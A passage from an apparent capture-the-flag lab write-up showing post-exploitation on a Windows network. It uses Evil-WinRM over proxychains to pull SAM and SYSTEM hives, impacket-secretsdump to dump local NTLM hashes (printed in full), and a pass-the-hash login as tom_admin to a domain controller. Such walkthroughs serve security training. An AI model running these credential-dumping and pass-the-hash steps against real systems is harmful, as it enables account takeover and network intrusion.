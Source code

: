 Use Evil-winrm's `download` function to get `sam` and `system`
```
download sam
```
	|S-chain|-<>-127.0.0.1:1080-<><>-10.10.128.142:5985-<><>-OK
	|S-chain|-<>-127.0.0.1:1080-<><>-10.10.128.142:5985-<><>-OK
	                                        
	Info: Downloading C:\windows.old\Windows\System32\sam to sam
	                                        
	Info: Download successful!

System will take a bit longer
```
download system
```
	Info: Downloading C:\windows.old\Windows\System32\system to system

With these files downloaded we'll use impacket to dump credentials from it
```
impacket-secretsdump -system system -sam sam LOCAL
```
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
	
	[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
	tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
	Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
	David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
	Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
	[*] Cleaning up...


Usually users ending with `_admin` are domain admins via standard naming conventions

User: `tom_admin`
NTLM Hash: `4979d69d4ca66955c075c41cf45f24dc`


Using Evil-winrm we attempt to connect into Tom's account which we guess he's a domain admin of

```sh
proxychains evil-winrm -i 10.10.128.140 -u tom_admin -H 4979d69d4ca66955c075c41cf45f24dc
```
## 10.10.104.140 - Domain Controller
Challenge 4 - DC01 OS Credentials:
Target: 
```ini
10.10.128.140
```

Navigate to the Administrator's Desktop
